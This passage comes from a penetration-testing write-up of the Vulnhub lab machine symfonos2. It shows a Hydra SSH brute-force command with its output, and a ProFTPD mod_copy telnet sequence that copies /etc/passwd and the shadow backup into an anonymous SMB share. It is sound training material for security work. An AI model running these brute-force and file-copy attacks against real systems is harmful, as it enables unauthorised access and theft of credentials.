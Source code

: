 Now we found a `log.txt` so i downloaded it on our attacking machine to see what we have in the `log.txt` file.

![image](https://user-images.githubusercontent.com/69868171/157862394-868d209e-9de8-4881-bf38-9ee5607595de.png)

Now that is interesting it both `SMB, FTP` logs file going through it i found a username.

![image](https://user-images.githubusercontent.com/69868171/157862549-260e829a-e5cc-4971-aa73-ec1c5e56461b.png)

Now that is a lead i guess so i start brute forcing `SSH` and leave it running in the background now back to the `FTP` seems we know the version let do some research on it.


```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos2]
└─$ hydra -l aeolus -P passwordlist.txt ssh://172.16.109.163 -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-11 09:58:59
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 70188 login tries (l:1/p:70188), ~17547 tries per task
[DATA] attacking ssh://172.16.109.163:22/
```

![image](https://user-images.githubusercontent.com/69868171/157863305-52a9c45a-0008-43dc-9445-98e3a90492e9.png)

Now that is an exploit we can use to copy the backup `shadow` file.

![image](https://user-images.githubusercontent.com/69868171/157863687-0a19eda3-ee71-409b-a2f6-f0eb71003b43.png)

So when going through the exploit seems it possible to copy a file on the target seems we know the path of the share we have access to on `SMB` it possible to copy the `shadow.bak` file to the anonymous share we have access to.

![image](https://user-images.githubusercontent.com/69868171/157866709-9bb52e25-6d26-416e-9e53-1abc69c9d60d.png)

```
telnet 172.16.109.163 21

site cpfr /etc/passwd

site cpto /home/aeolus/share/passwd.bak
```


![image](https://user-images.githubusercontent.com/69868171/157866882-699c31d9-327d-4005-b172-f0e98c80a93a.png)

Now that confirm it let copy the shadow file backup now.

![image](https://user-images.githubusercontent.com/69868171/157867270-506c265e-1d02-478f-b57c-3b67511e0b6e.png)
